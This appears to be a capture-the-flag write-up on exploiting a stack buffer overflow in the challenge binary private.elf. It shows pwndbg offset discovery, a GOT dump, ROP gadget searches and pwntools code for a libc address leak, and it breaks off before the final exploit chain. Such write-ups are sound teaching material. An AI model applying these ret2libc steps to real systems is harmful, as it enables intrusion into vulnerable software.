 # C is super easy and secure 2

## Find Offset to cause overflow

First of all, you can check for the offset pattern that crashes the program (because of an overlow).

I like to use `pwndbg` for this:

```bash
$ pwndbg private.elf 
# Launches Pwndbg (GDB with powerful enhancements) and loads the binary `private.elf`.

pwndbg: loaded 179 pwndbg commands and 47 shell commands...
# Displays Pwndbg's initialization info; confirms availability of useful commands and functions.

Reading symbols from private.elf...
# GDB attempts to read debugging symbols. These would provide useful info like variable names and line numbers.

pwndbg> cyclic 64
# Generates a 64-byte cyclic pattern (unique sequence) for use in detecting buffer overflow offsets.

aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaa
# The actual generated pattern that will be input into the program.

pwndbg> r
# Runs the binary under GDB.

Please enter a username: HackTWK
Please enter a password: aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaa
# User provides input (name + cyclic pattern) to trigger potential buffer overflow.

Program received signal SIGSEGV, Segmentation fault.
# The program crashes due to a segmentation fault — often indicates control over instruction pointer (EIP/RIP).

0x000000000040066d in main ()
# Crash occurred inside `main` at offset 0x40066d.

RBP  0x6161616161616167 ('gaaaaaaa')
# The base pointer (RBP) has been overwritten with part of the cyclic pattern — suggests stack buffer overflow.

RIP  0x40066d (main+434) ◂— ret 
# The instruction pointer (RIP) has not yet been overwritten; the crash happened on a return instruction.

───────────────────────────────────────────────────────────────────────────────────────────
rsp 0x7fffffffd3b8 ◂— 'haaaaaaa'
# Stack pointer (RSP) is pointing to part of the cyclic input — confirms overflow reached the stack.

pwndbg> cyclic -l 0x6161616161616168
# This command checks where in the cyclic pattern the value 0x6161616161616168 ('haaaaaaa') appears.

Found at offset 56
# Confirms that the crash occurred 56 bytes into the cyclic pattern — key to determining correct buffer size for exploit.
```

Now we know that the buffer is 56 bytes large.

## Find GOT Adress table to find libc version

In `pwndbg` you can just type `got` and it will print something like:

```bash
pwndbg> got
Filtering out read-only entries (display them with -r or --show-readonly)

State of the GOT of /drives/f/git/HackTWK/Challenges/reversing/c-is-easy-and-secure-2/private.elf:
GOT protection: Partial RELRO | Found 6 GOT entries passing the filter
[0x403000] puts@GLIBC_2.2.5 -> 0x7ffff7dfc600 (puts) ◂— endbr64 
[0x403008] printf@GLIBC_2.2.5 -> 0x7ffff7dd4a80 (printf) ◂— endbr64 
[0x403010] strcspn@GLIBC_2.2.5 -> 0x7ffff7f04c40 (__strcspn_sse42) ◂— endbr64 
[0x403018] fgets@GLIBC_2.2.5 -> 0x7ffff7dfa2e0 (fgets) ◂— endbr64 
[0x403020] gets@GLIBC_2.2.5 -> 0x7ffff7dfb860 (gets) ◂— endbr64 
[0x403028] setvbuf@GLIBC_2.2.5 -> 0x7ffff7dfcea0 (setvbuf) ◂— endbr64 
```

The `0x7ffff7dfc600` addresses are only valid at the current runtime and need to be extracted using a ROP Chain.

## Crafting the address leaking



I use `ropper` to search for the assembly instructions of the `ret` and `pop rdi; ret` instance with `ropper --file ./private.elf --search "ret"`.

This will give me somethign like `0x0000000000400356: ret;`

You also could use `ROPgadget --binary private.elf | grep ret`, pwngdb or pwntools right away to find this.

We also need the "normal" address of the `pop rdi; ret` with e.g. `ropper --file ./private.elf --search "pop rdi"`

`0x00000000004004b6 : pop rdi ; ret`

We also need the `puts` address from the GOT Table. You can also retrive those values from pwntools with this code:

```python
got_puts_address = p64(binary.got.puts)
got_fgets_address = p64(binary.got.fgets)
```

### Putting everything together

